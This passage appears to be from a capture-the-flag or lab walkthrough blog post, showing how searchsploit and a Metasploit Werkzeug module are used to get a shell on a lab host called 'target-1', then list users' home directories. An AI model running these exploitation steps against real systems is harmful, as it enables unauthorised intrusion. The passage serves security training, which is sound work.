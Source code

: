 Command:
`searchsploit werkzeug`

We get back some valid results:

{{< figure src="__GHOST_URL__/content/images/2019/12/image-66.png" >}}

So we now know we have a valid `Metasploit` module. Lets launch the `Metasploit console`.

Command:
`msfdb run` or `msfconsole`

Within the `Metasploit console` we `search` for our module.

Command:
`msf5> search werkzeug`

{{< figure src="__GHOST_URL__/content/images/2019/12/image-67.png" >}}

Now we need to select the payload. Again we use the `use` command followed by the module id.

Command:
`msf5> use 1`

We then show our options for the payload:

Command
`msf5> show options`

{{< figure src="__GHOST_URL__/content/images/2019/12/image-68.png" >}}

We look for our required fields. We have a required field of `rhost`, `rport` and `targeturi`. We set each accordingly. In this case we only need to set the `rhosts` parameter.

Command:
`msf5> set rhosts target-1`

Then we `run` the exploit.

Command:
`msf5> run` or `msf5> exploit`

Once this runs, we gain a shell:

{{< figure src="__GHOST_URL__/content/images/2019/12/image-69.png" >}}

Normally, when we obtain this type of shell I would look to `upgrade` it. However doing so on this box will cause it to break, so we'll save shell upgrades for later. 

Once we have our shell we can begin to enumerate internally. The shell we gain from the exploit is fairly unstable and seemingly has limited permissions. 

The first thing we will do is list the content of the `home` directory to see which users we have on the machine.

{{< figure src="__GHOST_URL__/content/images/2019/12/image-70.png" >}}

We gave a few users here. We don't have the ability to change to these directories but we can still list the contents within them.

Command:
`ls -lkah /home/alice`
